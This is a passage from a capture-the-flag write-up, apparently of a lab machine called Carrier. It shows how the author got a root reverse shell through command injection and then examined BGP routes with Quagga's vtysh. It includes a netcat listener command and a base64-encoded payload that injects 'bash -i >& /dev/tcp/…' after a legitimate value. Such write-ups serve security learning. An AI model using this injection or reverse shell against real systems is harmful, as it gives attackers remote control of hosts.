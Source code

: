 And it looks like we're root. Let's reverse shell dis boye:
![210108426.png]({{site.baseurl}}/Images/Carrier/210108426.png)

I like to fire up my netcat listener before running a reverse shell, beats forgetting to fire it up:
```
root@kali: nc -lnvp 22222
```

Choose a cheatsheet for reverse shells, I'm using [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). The theory of reverse shells has been discusse din previous sreams and videos. Pick one that is likely to work:
```
kali :: ~/CTFs/carrier # echo 'quagga; bash -i >& /dev/tcp/10.10.14.2/22222 0>&1' | base64
cXVhZ2dhOyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIvMjIyMjIgMD4mMQo=
```

You'll notice that the request won't load in burp. This is good, check netcat. You should be in! If the page loads, you might see an error in your netcat listener about ioctl or something. You might have to type the code rather than copypasta it...
![210173985.png]({{site.baseurl}}/Images/Carrier/210173985.png)

Let's take a moment to look back in the /doc directory:

http://10.10.10.105/doc/diagram_for_tac.png

I decided to take an educated guess that we were in a set of networks, at BGP was being used to share routes. ASXXX numbers like that are a BGP thing.

Quagga (the thing we can see on the diagnostics page) is part of a routing management suite, or something like that. Doing a quick bit of research leads to understanding the vtysh command is how you access and manage the routing process. To see the routes we have configured currently on the box, run vtysh and type show ip bgp. This lists the destination network, and the next hop (ie, the next network from our network to forward packets on to). The metric is the weighting for priority.
```
root@r1:~# vtysh
vtysh

Hello, this is Quagga (version 0.99.24.1).
Copyright 1996-2005 Kunihiro Ishiguro, et al.

r1# show ip
show ip
% Command incomplete.
r1# show ip bgp
show ip bgp
BGP table version is 0, local router ID is 10.255.255.1
Status codes: s suppressed, d damped, h history, * valid, > best, = multipath,
              i internal, r RIB-failure, S Stale, R Removed
Origin codes: i - IGP, e - EGP, ? - incomplete

   Network          Next Hop            Metric LocPrf Weight Path
*> 10.78.10.0/24    0.0.0.0                  0         32768 ?
*> 10.78.11.0/24    0.0.0.0                  0         32768 ?
*> 10.99.64.0/24    0.0.0.0                  0         32768 ?
*  10.100.10.0/24   10.78.11.2                             0 300 200 i
*>                  10.78.10.2               0             0 200 i
*  10.100.11.0/24   10.78.11.2                             0 300 200 i
*>                  10.78.10.2               0             0 200 i
*  10.100.12.0/24   10.78.11.2                             0 300 200 i
*>                  10.78.10.2               0             0 200 i
*  10.100.13.0/24   10.78.11.2                             0 300 200 i
*>                  10.78.10.2               0             0 200 i
*  10.100.14.0/24   10.78.11.2                             0 300 200 i
*>                  10.78.10.2               0             0 200 i
```